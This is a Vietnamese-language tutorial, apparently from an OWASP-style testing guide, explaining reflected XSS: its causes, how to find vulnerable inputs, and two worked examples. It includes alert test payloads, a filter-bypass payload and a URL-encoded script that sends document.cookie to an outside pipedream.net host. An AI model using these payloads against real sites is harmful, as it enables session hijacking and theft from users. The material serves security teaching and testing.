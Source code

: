 ## Description
- Kỹ thuật XSS được thực hiện dựa trên việc chèn các đoạn script nguy hiểm vào trong source code ứng dụng web. Nhằm thực thi các đoạn mã độc Javascript để chiếm phiên đăng nhập của người dùng
- Mã độc được tiêm vào url và gửi đến cho nạn nhân, nạn nhân ấn vào đường link có chứa mã độc và hacker sẽ nhận được response chứa kết quả mong muốn.
![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/1%20o_asKsD_JqunhqggHoxodw.png)  

##### Example:
```http://example.com/?search=<script>alert(1)</script>```
## Reason
- Server không kiểm soát giá trị input người dùng nhập vào trước khi trả về cho trình duyệt
- Người dùng sử dụng các trình duyệt đã lỗi thời
- Sự chủ quan, thiếu kiến thức và sự đề phòng của nạn nhân
## Exploit
1. Phát hiện input vector  
    * Đối với mỗi trang web, người kiểm tra phải xác định tất cả các input do người dùng định nghĩa và cách nhập chúng
    * **Các input dễ bị tấn công:** ?search=,?page=,?document=,?user=,...
2. Phân tích từng vector 
    * Người kiểm tra fuzz các kí tự và các từ khóa nhạy cảm,vô hại để phát hiện lỗ hổng trong ứng dụng web.
    * Phát hiện các input cho phép hiển thị kết quả được nhập vào!
    * **Các kí tự nhạy cảm:** <,>,/,script,alert,',...
Example: Input
```
<script>alert(document.cookie)</script>
```
3. Phân tích kết quả
    * Người kiểm tra xác định bất kỳ ký tự đặc biệt nào không được mã hóa, thay thế hoặc lọc đúng
    * Các kí tự HTML đặc biệt cần phải được thay thế bằng HTML entities hoặc replace,encode,...
## Example
### Example 1:
![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-1.png)  

- Ta có trang web như trên.Trang web trên cho phép người dùng nhập vào tên và in ra kết quả ra màn hình. Dữ liệu input được gửi lên server bằng phương thức **GET**.Đối với người sử dụng bình thường có thể thấy trang web hoàn toàn hoạt động bình thường.Bây giờ ta sẽ tiến hành nhập thử đoạn javascript đơn giản vào input:```<script>alert(1);</script>```.Kết quả:  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-2.png)  

- Qua hình ảnh trên ta có thể thấy đoạn script ta nhập đã được thực thi.Tiến hành phân tức dữ liệu trả về ta thấy như sau:  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-3.png)  

- Trong quá trình xử lí dữ liệu người dùng nhập vào không dược filter nên dữ liệu server trả về sẽ làm thay đổi DOM của trang Web và đoạn script được thực thi.  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-4.png "dữ liệu xử lí không được filter")

- Hacker có thể inject đoạn script cực kì độc hại đánh lừa nạn nhân và đánh cắp cookie như sau:  
```js
?name=<script>var+i%3Dnew+Image()%3Bi.src%3D"https%3A%2F%2Fentqd5oi4bil.x.pipedream.net%3Fa%3D"%2Bdocument.cookie%3B<%2Fscript>#
```

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-9.png)

- Cookie của nạn nhân được chuyển đến hacker

### Example 2:
- Chúng ta sẽ tiếp tục ví dụ trên nhưng ở mức độ nâng cao hơn một chút  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-5.png)  

* Ta sử dụng payload ```<script>alert(1)</script>``` để kiểm tra. Nhưng lần này đoạn code ta inject đã không được thực thi. Thay vào đó kết quả trả về là **Hello alert(1);**. Ấn **ctrl+u** hoặc **f12** kiểm tra raw response:  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-6.png)

* Oh!!! Ta thấy ngay từ khóa ```<script>``` đã bị filter  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-7.png)  

* Đối với dạng filter lỏng lẻo như thế này chúng ta có thể bypass bằng payload có dạng như sau: ```<scr<script>ipt>alert(1);</script>```  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-8.png)
